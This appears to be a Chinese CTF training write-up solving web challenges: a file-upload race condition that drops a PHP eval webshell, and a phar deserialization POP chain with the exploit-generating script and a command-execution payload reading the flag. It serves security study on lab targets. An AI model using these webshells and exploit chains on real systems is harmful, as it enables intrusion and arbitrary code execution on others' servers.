

# CUCCTF训练2025 [03-12 ~ 03-18]
# 第一部分
## 本期主题关键词
WEB，SQL注入，文件上传，反序列化，RCE
## 本周题目

- [FSCTF 2023 加速加速](https://www.nssctf.cn/problem/2141)

- [SWPUCTF 2021 新生赛 babyunser](https://www.nssctf.cn/problem/466)

- [HNCTF 2022 WEEK2 easy_sql](https://www.nssctf.cn/problem/2952)

- [网鼎杯 2018 Fakebook](https://www.nssctf.cn/problem/20)
### 加速加速
本题考点为条件竞争，至于除了标签外如何判断此网站拥有该漏洞，暂时没弄懂
***
条件竞争:是指程序的多个并发操作在访问共享资源时，由于执行顺序的不确定性，导致结果不可预测或被攻击者利用的现象。在 Web 安全中，攻击者可以利用条件竞争在服务器执行某些操作（如文件检测和删除）之前，抢先执行另一项操作（如文件读取），从而绕过安全机制
***
由于他会检测，如果检测到上传了php就会将文件删除，所以我们希望上传一个php文件，让它在被检测到并删除之前被访问并执行，生成一个新的php文件作为webshell，代码如下
```php
<?php
file_put_contents('1.php', '<?php eval($_POST["r00ts"]);?>');
?>
```
首先发一个jpg文件看看他把上传上去的图存在哪里了（这里直接把一会要用的文件后缀改了）<br>
<br>
可以看到存在/upload里，接下来我们要重复快速发送两个包，上传php包如下<br>
<br>
访问上传包如下，发现在10000次访问中有3次成功了，也就是说此时已经成功在upload中生成了1.php，即webshell<br>
<br>
成功后用蚁剑连接webshell<br>
<br>
<br>
回到根目录找到flag<br>
<br>
FSCTF{p@ti0ns_15_key_1n_1ife}<br>
### babyunser
***
Phar 文件是一种 PHP 归档文件，类似于 .zip 或 .tar，可以存储 PHP 对象，而这些对象在某些情况下会被 unserialize() 自动解析，导致反序列化漏洞，如果目标代码使用 file_exists() 或 fopen() 访问 phar文件，PHP 会自动反序列化 metadata，导致入口类的 __destruct() 方法执行
***
在查看页看看当前页面的代码（下面把html部分删掉了，只看php部分）

```php
<?php
include('class.php');
$a=new aa();

error_reporting(0);
$filename=$_POST['file'];
if(!isset($filename)){
    die();
}
$file=new zz($filename);
$contents=$file->getFile();
?>
<br>
<textarea class="file_content" type="text" value=<?php echo "<br>".$contents;?>
```
看到这里用到了class.php，用同样的方法查看
```php
<?php
class aa{
    public $name;

    public function __construct(){
        $this->name='aa';
    }

    public function __destruct(){
        $this->name=strtolower($this->name);
    }
}
// aa类，析构函数调用strlower处理name

class ff{
    private $content;
    public $func;//作为方法名字的字符串

    public function __construct(){
        $this->content="\<?php @eval(\$_POST[1]);?>";
    }

    public function __get($key){
        $this->$key->{$this->func}($_POST['cmd']);
    }
}
// ff类，构造函数将一句话木马赋值给content
// 当访问不存在的变量key时调用get函数，将key的值赋值为func(a)，其中a为从cmd输入的值

class zz{
    public $filename;
    public $content='surprise';

    public function __construct($filename){
        $this->filename=$filename;
    }

    public function filter(){
        if(preg_match('/^\/|php:|data|zip|\.\.\//i',$this->filename)){
            die('这不合理');
        }
    }

    public function write($var){
        $filename=$this->filename;
        $lt=$this->filename->$var;
        //此功能废弃，不想写了
    }

    public function getFile(){
        $this->filter();
        $contents=file_get_contents($this->filename);
        if(!empty($contents)){
            return $contents;
        }else{
            die("404 not found");
        }
    }
    //读取 $this->filename 文件的内容，如果 filename 是 phar://，就可能触发 Phar 反序列化漏洞。

    public function __toString(){
        $this->{$_POST['method']}($_POST['var']);
        return $this->content;
    }
    //通过 $_POST['method']($_POST['var']) 执行任意方法
}

class xx{
    public $name;
    public $arg;

    public function __construct(){
        $this->name='eval';
        $this->arg='phpinfo();';
    }

    public function __call($name,$arg){
        $name($arg[0]);
    }
    //可以调用任意 PHP 内置函数
}
```
思路梳理：
- 1.我们希望通过ff类的get方法来cat flag，即需要从某处调用private的content以触发get
    - cmd = cat /flag (POST赋值)
    - func = "system" (构造函数中赋值)
- 2.如果zz类的filename是ff类，可以通过write(content)来触发ff的get，即需要从某处调用write，zz的toString可以达成这点
    - var = content (POST赋值)
    - method = write (POST赋值)
- 3.aa的destruct中有strtolower,如果aa的name是zz类则可以触发zz的toString
- 另外需要注意：我们最后希望在get中执行content->system('cat /flag')，但我们的content并没有赋值，这时候发现还有xx中的call可以用，如果我们的content是xx类，在执行上述语句时会因为xx没有名为system的函数而调用call，call方法接收两个参数，一个是$name,一个是$arg
这两个参数分别对应我们调用的不存在的方法的方法名和参数,即system('cat /flag')

梳理完接下来可以生成phar文件了
```php
<?php
class aa{
    public $name;
}
class ff{
    private $content;
    public $func = "system";
    public function __construct(){
        $this->content = new xx();
    }

}
class zz{
    public $filename;
    public $content;
}
class xx{
    public $name;
    public $arg;
}
$a = new aa();
$a -> name = new zz();
$a -> name ->filename = new ff();


$phar = new Phar('exp.phar');
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER();?>"); //定义 Phar 归档的入口代码,保证归档数据不会被 PHP 解析
$phar->setMetadata($a);  // 把对象 $a 存储到 metadata
$phar->addFromString("test.txt","test");
$phar->stopBuffering();
?>
```
注意需要将php.ini中的
```
; phar.readonly = On
```
修改为
```
phar.readonly = Off
```
上传生成好的phar文件

按照梳理进行赋值，payload如下
```
file=phar://upload/dad70a1fcf311e5b0df09b191ec25c4d.txt&method=write&var=content&cmd=cat /flag
```
